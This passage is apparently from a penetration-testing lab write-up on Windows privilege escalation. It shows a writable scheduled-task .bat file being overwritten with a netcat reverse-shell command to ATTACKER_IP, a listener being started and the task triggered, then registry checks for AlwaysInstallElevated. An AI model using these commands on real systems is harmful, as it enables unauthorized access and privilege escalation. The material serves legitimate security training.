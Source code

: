 `icacls c:\tasks\schtask.bat`

### 2.PNG

![App Screenshot](https://github.com/rohit00712/Jr-Penetration-Tester/blob/main/Privilege%20Escalation/Windows%20Privilege%20Escalation/images/2.PNG)

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:

`echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

`nc -lvnp 4444`

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

`schtasks /run /tn vulntask`

And you will receive the reverse shell with taskusr1 privileges as expected:

### AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

**Note:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

`C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`

`C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

Run both these commands and the value for AlwaysInstallElevated must be 1 or 0x1. So that we can confirm and proceed along.

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:
